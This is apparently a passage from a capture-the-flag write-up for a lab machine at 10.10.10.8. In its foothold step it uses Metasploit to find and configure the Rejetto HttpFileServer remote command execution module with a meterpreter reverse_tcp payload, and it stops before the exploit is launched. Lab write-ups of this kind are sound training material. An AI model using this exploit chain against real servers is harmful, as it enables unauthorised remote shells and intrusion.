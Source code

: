 
### Foothold

A quick `search` in Metasploit shows us a module that might give us access.
If you're interested in the `info` for the exploit, feel free to expand the collapsed details.

```bash
msf6 > search httpfileserver

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec
```

<details><summary>Rejetto HttpFileServer Info</summary></details>

We'll go ahead and select the `rejetto_hfs_exec` module.
When dealing with 1 box, I typically use `setg` instead of `set` for values.
This will globally change the value in case a different module is used later.

```bash
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > setg rhosts 10.10.10.8
rhosts => 10.10.10.8
msf6 exploit(windows/http/rejetto_hfs_exec) > setg lhost tun0
lhost => tun0

msf6 exploit(windows/http/rejetto_hfs_exec) > options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.8       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```